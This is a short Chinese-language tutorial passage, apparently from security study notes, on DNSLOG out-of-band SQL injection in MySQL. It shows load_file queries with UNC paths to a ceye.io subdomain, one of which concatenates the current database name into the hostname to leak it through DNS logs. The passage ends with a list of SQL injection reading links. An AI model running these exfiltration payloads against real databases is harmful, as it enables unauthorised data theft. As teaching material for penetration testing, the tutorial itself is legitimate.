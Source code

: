 ### DNSLOG注入

**DNS在解析的时候会留下日志，通过读取多级域名的解析日志，来获取信息。简单来说就是把信息放在高级域名中，传递到自己这，然后读取日志，获取信息。**

dnslog平台：[http://ceye.io/](http://ceye.io/)

```
mysql> use security;
Database changed

mysql> select load_file('\\\\test.xxx.ceye.io\\abc');
+-------------------------------------------+
| load_file('\\\\test.xxx.ceye.io\\abc') |
+-------------------------------------------+
| NULL                                      |
+-------------------------------------------+
1 row in set (22.05 sec)

mysql> select load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc'));
+----------------------------------------------------------------------+
| load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc')) |
+----------------------------------------------------------------------+
| NULL                                                                 |
+----------------------------------------------------------------------+
1 row in set (0.00 sec)
```

![](../php/figure/preg\_match/sqli1.png)

## 参考资料

* [SQL 注入速查表](http://drops.xmd5.com/static/drops/tips-7840.html)
* [MySQL 注入技巧](http://drops.xmd5.com/static/drops/tips-7299.html)
* [MySQL 注入科普](http://drops.xmd5.com/static/drops/tips-123.html)
* [MySQL 注入总结](http://www.91ri.org/4073.html)
* [《SQL 注入攻击与防御》](http://product.dangdang.com/23364650.html)
